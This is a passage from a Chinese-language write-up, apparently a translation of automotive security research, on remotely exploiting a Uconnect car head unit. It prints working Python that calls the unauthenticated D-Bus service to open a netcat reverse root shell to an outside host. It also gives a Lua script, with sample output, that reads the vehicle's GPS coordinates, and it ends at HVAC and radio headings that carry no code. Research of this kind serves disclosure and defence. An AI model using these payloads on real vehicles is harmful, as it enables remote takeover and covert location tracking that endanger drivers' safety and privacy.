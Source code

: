 
你可以推测出在头单元上使用根权限来执行代码并不难，尤其是当默认安装的是常用的通讯工具时，比如netcat（nc）。我们希望这个漏洞可以更出色一点（编辑注释：这是假话！），虽然在头单元上执行代码不是很困难。下面的四行Python代码可以在未经篡改过的头单元上打开一个远程根shell，这意味着攻击者并不需要通过劫持头单元就可以入侵系统。

    
    
    #!python
    import dbus
    bus_obj=dbus.bus.BusConnection("tcp:host=192.168.5.1,port=6667") 
    proxy_object=bus_obj.get_object('com.harman.service.NavTrailService','/com/ha rman/service/NavTrailService') 
    playerengine_iface=dbus.Interface(proxy_object,dbus_interface='com.harman.Ser viceIpc')
    print playerengine_iface.Invoke('execute','{"cmd":"netcat -l -p 6666 | /bin/sh | netcat 192.168.5.109 6666"}')
    

# 0x02 Uconnect攻击载荷（attack payloads）

至此，我们就可以在头单元上运行任意代码了，尤其是在Uconect系统中的OMAP芯片上。在这一部分，我们讲解了几种能影响到汽车内部以及无线电广播功能的LUA脚本，例如调高音量或阻止某个控制开关的响应（也就是音量）。通过这个脚本你就能知道在具备了远程shell和Uconnect系统权限后，我们可以在汽车上做哪些手脚。接下来，我们会说明如何通过远程访问D-Bus系统来实现平行感染并发送任意的CAN信息，从而影响汽车上除了头单元以外的其他系统。

## GPS

头单元能够查询并获取车辆上的GPS坐标，不是通过Sierra Wireless调制解调器就是通过Wi-Fi。通过端口6667上未认证的D-Bus通讯也可以获取到这些值，这样造成的结果就是可以追踪任意车辆的位置。换句话说，我们下面的这个脚本就可以在头单元上运行，但是只能通过查询暴露的D-bus服务来获取坐标值。

    
    
    service = require("service")
    gps = "com.harman.service.NDR"
    gpsMethod = "JSON_GetProperties"
    gpsParams = {
       inprop = {
       "SEN_GPSInfo"
       }
    }
    response = service.invoke(gps, gpsMethod, gpsParams) print(response.outprop.SEN_GPSInfo.latitude, response.outprop.SEN_GPSInfo.longitude)
    

例如，如果你在头单元上执行‘`lua getGPS.lua`’，那么就会返回如下的结果：

# lua getGPS.lua

40910512 -73184840

然后，你可以稍加修改，在谷歌地图中输入40.910512, -73.184840，这样就能确定其位置了。在这个例子中，是长岛的某个位置。

## HVAC

头单元可以控制汽车的供暖和空调。下面的代码会把风扇设置到一个任意速度。

## 广播音量

